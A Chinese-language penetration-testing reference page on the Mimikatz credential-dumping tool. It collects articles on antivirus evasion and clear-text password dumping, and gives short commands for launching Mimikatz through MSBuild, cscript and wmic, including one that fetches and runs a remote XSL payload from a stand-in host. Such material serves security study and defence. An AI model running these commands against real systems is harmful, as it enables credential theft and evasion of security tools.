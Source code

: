 # Mimikatz

<p align="center">
    <img src="../../../assets/img/logo/mimikatz.jpg" width="25%">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**项目地址**
- https://github.com/gentilkiwi/mimikatz

**文章 & Reference**
- [九种姿势运行 Mimikatz](https://www.freebuf.com/articles/web/176796.html)
- [Mimikatz 使用小技巧](https://www.webshell.cc/5343.html)
- [域渗透——Dump Clear-Text Password after KB2871997 installed](https://wooyun.js.org/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Dump%20Clear-Text%20Password%20after%20KB2871997%20installed.html)
- [【红蓝对抗】内网渗透-免杀抓取windows hash](https://mp.weixin.qq.com/s/WLP1soWz-_BEouMxTHLbzg)
- [Mimikatz的18种免杀姿势及防御策略(上)](https://mp.weixin.qq.com/s/CiOaMnJBcEQfZXV_hopzLw)
- [Mimikatz的18种免杀姿势及防御策略(下)](https://mp.weixin.qq.com/s/0p88rj-tWClLa_geKMkPgw)
- [防御Mimikatz攻击的方法介绍](https://www.freebuf.com/articles/network/180869.html)
- [获取Windows高版本明文密码](https://mp.weixin.qq.com/s/Q-JBDdt6jPi9fawlGAiHzg)
- [红队技巧：绕过ESET_NOD32抓取密码](https://mp.weixin.qq.com/s/FaiNEUX2wcscotkyAqUO2Q)

**辅助项目**
- [skelsec/pypykatz](https://github.com/skelsec/pypykatz) - 纯 Python 的 Mimikatz 实现,Runs on all OS's which support python>=3.6
- [3gstudent/msbuild-inline-task](https://github.com/3gstudent/msbuild-inline-task) - 利用 MSBuild 执行 Mimikatz
    ```
    cd C:\Windows\Microsoft.NET\Framework64\v4.0.30319
    .\MSBuild.exe 1.xml
    ```
- [Stealthbits/poshkatz](https://github.com/Stealthbits/poshkatz) - PowerShell module for Mimikatz
- [vyrus001/go-mimikatz](https://github.com/vyrus001/go-mimikatz)
- JScript
    - [Instructions-to-mimikatz-js.txt](https://gist.github.com/pljoel/42dae5e56a86a43612bea6961cb59d1a) - JS 加载 Mimikatz
        ```
        cscript mimikatz.js
        ```
    - [xsl版](https://github.com/TideSec/BypassAntiVirus/blob/master/tools/mimikatz/mimikatz.xsl)
        ```
        wmic os get /format:"mimikatz.xsl"
        wmic os get /FORMAT:"https://example.com/mimikatz.xsl"
        ```
    - [sct版](https://github.com/TideSec/BypassAntiVirus/blob/master/tools/mimikatz/mimikatz.sct)

---